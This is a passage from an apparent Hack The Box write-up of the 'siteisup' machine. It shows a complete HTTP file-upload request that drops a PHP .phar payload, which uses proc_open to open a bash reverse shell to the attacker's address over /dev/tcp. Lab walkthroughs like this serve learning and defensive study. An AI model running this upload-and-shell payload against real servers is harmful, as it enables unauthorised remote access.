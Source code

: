`proc_open` was not disabled. I found a [small script](https://github.com/Taintedtrickstr/Reverse_Shells/blob/main/PHP_Proc_Open_Reverse_Shell) that showed how to exploit it to run commands on the server. 


I used it to get a shell on the server. 

```http
POST / HTTP/1.1
Host: dev.siteisup.htb
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:102.0) Gecko/20100101 Firefox/102.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Content-Type: multipart/form-data; boundary=---------------------------27067171744469957932680288557
Content-Length: 1006
Origin: http://dev.siteisup.htb
Connection: close
Referer: http://dev.siteisup.htb/
Upgrade-Insecure-Requests: 1
Special-Dev: only4dev

-----------------------------27067171744469957932680288557
Content-Disposition: form-data; name="file"; filename="test.phar"
Content-Type: text/plain

<?php
$descriptorspec = array(
   0=> array("pipe", "r"),  // stdin is a pipe that the child will read from
   1=> array("pipe", "w"),  // stdout is a pipe that the child will write to
   2=> array("file", "/tmp/error-output.txt", "a") // stderr is a file to write to
);
$process = proc_open('sh', $descriptorspec, $pipes, $cwd, $env);
if (is_resource($process)) {
    fwrite($pipes[0], "bash -c 'bash -i >& /dev/tcp/10.10.14.6/4444 0>&1'");
    fclose($pipes[0]);

    echo stream_get_contents($pipes[1]);
    fclose($pipes[1]);

    $return_value = proc_close($process);

     echo "command returned $return_value\n";
}
?>

https://app.hackthebox.com
-----------------------------27067171744469957932680288557
Content-Disposition: form-data; name="check"

Check
-----------------------------27067171744469957932680288557--
```
